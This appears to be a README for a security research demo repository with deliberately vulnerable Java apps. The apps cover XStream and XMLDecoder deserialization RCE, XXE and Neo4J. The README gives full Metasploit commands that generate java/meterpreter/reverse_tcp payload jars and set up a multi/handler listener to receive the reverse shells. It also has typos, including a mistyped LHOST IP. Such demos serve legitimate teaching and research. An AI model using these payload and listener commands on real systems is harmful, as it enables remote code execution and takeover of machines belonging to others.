 ## Demos

* SpringXStream: SpringMVC RESTful application using XStream and RCE exploits
* RestletXMLDecoder: Restlet application using object representation and RCCE exploits
* Neo4J: DB to be used in the vulnerable VM and curl exploits
* SpringJAXB: XXE Vulnerable SpringMVC REST API. To be deployed on the vulnerable VM (http://192.168.239.146/contacts)

## Using Metasploit
The demos have been weaponized to use meterpreter sessions. Meterpreter have been modified to run the payload at object instantiation time. Once your MSF installation has been modified to use the modified meterpreter session (download it from https://github.com/pwntester/metasploit-javapayload), run the following command to generate the malicious jar.

./msfpayload java/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 R > /Users/alvaro/Sites/met.jar
./msfpayload java/meterpreter/reverse_tcp LHOST=102.168.239.146 LPORT=4444 R > /Users/alvaro/Sites/met239.jar

For SpringXStream and RestletXMLDecoder, the meterpreter needs to connect back to localhost:4444. The meterpreter jar can be found at http://localhost/~alvaro/met.jar
For the SpringMVC XXE + Newo4J RCE demo, the meterpreter needs to connect back to 192.168.239.1:4444. The meterpreter jar can be found at http://localhost/~alvaro/met239.ja

Metasploit listener needs to be configured on localhost:4444 for the SpringXStream and RestletXMLDecoder demos and on 192.168.239.1:4444 for the SpringMVC XXE + Newo4J
./msfconsole
use exploit/multi/handler
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST  127.0.0.1  or set LHOST 192.168.239.1
set LPORT 4444
exploit

